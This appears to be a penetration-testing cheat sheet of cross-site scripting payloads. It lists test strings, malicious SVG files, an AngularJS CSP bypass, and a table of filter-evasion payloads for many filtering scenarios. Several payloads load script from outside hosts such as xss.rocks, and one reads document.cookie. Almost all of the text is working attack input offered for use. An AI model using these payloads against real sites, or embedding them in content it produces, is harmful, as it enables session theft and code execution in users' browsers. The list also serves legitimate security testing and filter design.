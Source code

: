 # XSS Stuff

## Test Strings
```
<script>onerror=alert;throw 1</script>
<svg onload=alert(1) 
<img src=x onerror=alert('XSS');>
<img/src/onerror=prompt(8)>
<img/src/onerror=alert(document.cookie;)>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
SVG based XSS:   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert("SVG XSS");
</script>
</svg>

```
SVG based blind XSS:   
```
<svg version="1.1" baseProfile="full" xmlns="http://w3.org/2000/svg" xmlns:xlink="http://w3.org/1999/xlink" >
  <script type="text/javascript"  xlink:href="URL"></script>
</svg>
```

## Using Angular.js to bypass CSP
If you can find a place in a web page where e.g.  `{{7*7}}` gets displayed on client-side as '49' (if its returned as 49, then its server-side template injection!), you can try to bypass CSP with:   
`{{$on.constructor('alert(1)')()}}`   
More here: https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
 
## XSS Bypasses

|   Filter   | Bypass    |
| --- | --- |
| Nothing | &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt;, no quotes | >&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt; with quotes | ">&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection within a &lt;script&gt; block | `asdf";alert(1);<!--` |
| Injection within a &lt;textarea&gt; | &lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt; |
| DOM-XSS, no filtering | &lt;img src=x onerror=alert(1)&gt; |
| Client-side filtering of some values | [Attack in URL directly or manipulate request via Burp: https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert(1)%3C/script%3E](https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert%281%29%3C/script%3E) |
| "&lt;" and "&gt;" are filtered | test" onmouseover="alert(1) |
| "script" is filtered, but only once | &lt;img src=x onerror=alert(1)&gt; OR &lt;scriscriptpt&gt;alert(1)&lt;/scriscriptpt&gt;  |
| most non-HTML5 onXYZ handlers are blocked | Any valid HTML5 onevent handler: &lt;input type=text oncontextmenu=alert(1)&gt;|
| all "onxyz" event handlers are filtered, "script" is filtered, but case sensitive | &lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt; |
| "alert" is filtered | [&lt;script src=https://xss.rocks/xss.js&gt;](https://xss.rocks/xss.js) |
| "alert", "http://" and "https://" are filtered | &lt;script src=//xss.rocks/xss.js&gt; |
| Injection in a &lt;script&gt; block, but double quotes are escaped | Escape the escape character: `asdf\\";alert(1);<!--` |
| Injection in a &lt;script&gt; block, but "&lt;", "&gt;" and "alert" are filtered | ";\\u{61}lert(1);var i=" |
| Parentheses are filtered | &lt;script&gt;onerror=alert;throw 1&lt;/script&gt; |
| Injection inside "src" attribute of &lt;script&gt; tag, but all protocols "http://", "https://" and "//" are filtered. | data:text/javascript,alert(1) |
| all tags (e.g. &lt;.*&gt;) are filtered | Parameter pollution: [https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert(1)%3C/script%20&inject=%3E](https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert%281%29%3C/script%20&inject=%3E) |
| "script" and "onXYZ" event handlers are filtered, but knockout JS is available. | Knockout JS script gadget:  &lt;h2&gt;Hello, &lt;span data-bind="text: alert(1)"&gt;&lt;/span&gt;!&lt;/h2&gt; |
| Injection via file upload, nothing filtered | Upload HTML document (e.g. test.html): &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection via file upload, but .html extension and other important ones are filtered. | Upload HTML document, but with .htm extension:  &lt;script&gt;alert(1)&lt;/script&gt; |
| MIMETypes are filtered, only images are allowed. | Use an SVG (below is a fancy one): <br>`<?xml version="1.0" standalone="no"?>`<br>`<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">`<br>`<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">`<br>`<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />`<br>`<script type="text/javascript">`<br>`alert("SVG XSS");`<br>`</script>`<br>`</svg>` |
| Injection inside eval, but ">", "<", "=", "alert", "script", "src" and protocols are all filtered. | String.fromCharCode(97,108,101,114,116,40,49,41) |
| csp blocks most things, but allows angularJS to be loaded | <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script\> &lt;input type=text ng-app id=p ng-focus=$event.view.alert(1)&gt; |
